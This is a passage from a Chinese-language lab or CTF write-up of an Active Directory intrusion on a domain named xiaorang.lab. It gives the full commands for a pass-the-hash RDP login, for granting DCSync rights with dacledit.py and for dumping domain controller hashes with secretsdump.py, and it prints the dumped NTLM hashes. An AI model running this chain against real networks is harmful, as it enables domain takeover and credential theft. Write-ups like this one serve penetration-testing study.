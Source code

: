 ```plain
         * Password : 3d 6d 31 ad 7f 1e 6a 92 75 93 d8 9c 28 c2 da f9 7e db d4 cd fc 54 f6 dd 2f 0b a2 1f 4e 72 3d cc 83 4a d9 57 e7 43 b1 db b4 33 0a c8 b2 d8 16 d0 68 8d bd 6a 31 9e b6 c4 65 cd 0d 0d 1a 57 67 05 dc 21 be f8 54 e1 f3 09 32 e0 5f 00 df a3 91 6b 37 37 75 de 02 90 5e 02 68 ce 88 b2 31 0c ab 82 c9 4c 3b 13 db 9c 3f a1 1c 20 45 39 4a 00 f9 53 b0 51 e7 72 4e 92 a1 83 6f 0c fb b9 fd 25 e2 71 e3 e7 83 53 f6 42 af 28 a3 bb 30 a0 71 e6 f0 67 02 d7 33 cf da 94 9c f0 48 0e f2 de 44 a2 39 0f 61 ad 3d 59 b7 29 30 37 39 54 15 cd 93 7f 56 49 3e c7 61 9c 95 ea d5 25 c7 90 d9 0c f5 39 94 0f 1b 22 66 3e e1 75 df 38 aa 84 b6 22 9e 31 f7 70 57 13 9f ef b0 18 5c 9f b8 53 98 20 0c 93 63 dc 6d 84 66 42 17 2e 27 e7 ea 05 ec 5d 99 e9 e7 e6
        ssp :
        credman :
```

这里分别抓出了 XIAORANG-EXC01$的哈希 fd8408d2e99712fd9c0e3f9ff5a4a68a

和 Zhangtong：22c7f81993e96ac83ac2f3f1903de8b4

到这里，我们可以用 XIAORANG-EXC01 哈希登录一下

```plain
proxychains xfreerdp /pth:fd8408d2e99712fd9c0e3f9ff5a4a68a /u:XIAORANG-EXC01$ /v:172.22.3.9:3389
```

这样就可以登录上 XIAORANG-EXC01，然后用 bloodhound 分析一下发现 EXC01 机器账户默认对域内成员具有 writeDacl 权限，这个权限允许身份修改指定对象 ACL，所以可以给 Zhangtong 修改个 DCSync，然后就可以抓域控哈希了。（这里查了一下资料，DCSync，DCSync 是域渗透中经常会用到的技术，其被整合在了 Mimikatz 中。在 DCSync 功能出现之前，要想获得域用户的哈希，需要登录域控制器，在域控制器上执行代码才能获得域用户的哈希。所以当我们看到 EXC01 机器账户默认对域内成员具有 writeDacl 权限，所以 EXC01 机器就可以修改其他账户的 ACL，从而使 Zhangtong 获得 DCSync，从而就可以使用 Zhangtong，来抓域控哈希了）

[dacledit.py](https://github.com/ThePorgs/impacket)

添加 DCSync

```plain
proxychains python3 dacledit.py xiaorang.lab/XIAORANG-EXC01\$ -hashes :4de6c4eeee1f315e1241c4a813e2b3b5 -action write -rights DCSync -principal Zhangtong -target-dn "DC=xiaorang,DC=lab" -dc-ip 172.22.3.2
```

抓哈希

```plain
proxychains python3 secretsdump.py xiaorang.lab/Zhangtong@172.22.3.2 -hashes :22c7f81993e96ac83ac2f3f1903de8b4 -just-dc-ntlm
```

```plain
[proxychains] Strict chain  ...  1.15.75.117:1080  ...  172.22.3.2:445  ...  OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Strict chain  ...  1.15.75.117:1080  ...  172.22.3.2:135  ...  OK
[proxychains] Strict chain  ...  1.15.75.117:1080  ...  172.22.3.2:49667  ...  OK
xiaorang.lab\Administrator:500:aad3b435b51404eeaad3b435b51404ee:7acbc09a6c0efd81bfa7d5a1d4238beb:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b8fa79a52e918cb0cbcd1c0ede492647:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\$431000-7AGO1IPPEUGJ:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_46bc0bcd781047eba:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_2554056e362e45ba9:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_ae8e35b0ca3e41718:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_341e33a8ba4d46c19:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_3d52038e2394452f8:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
xiaorang.lab\SM_2ddd7a0d26c84e7cb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```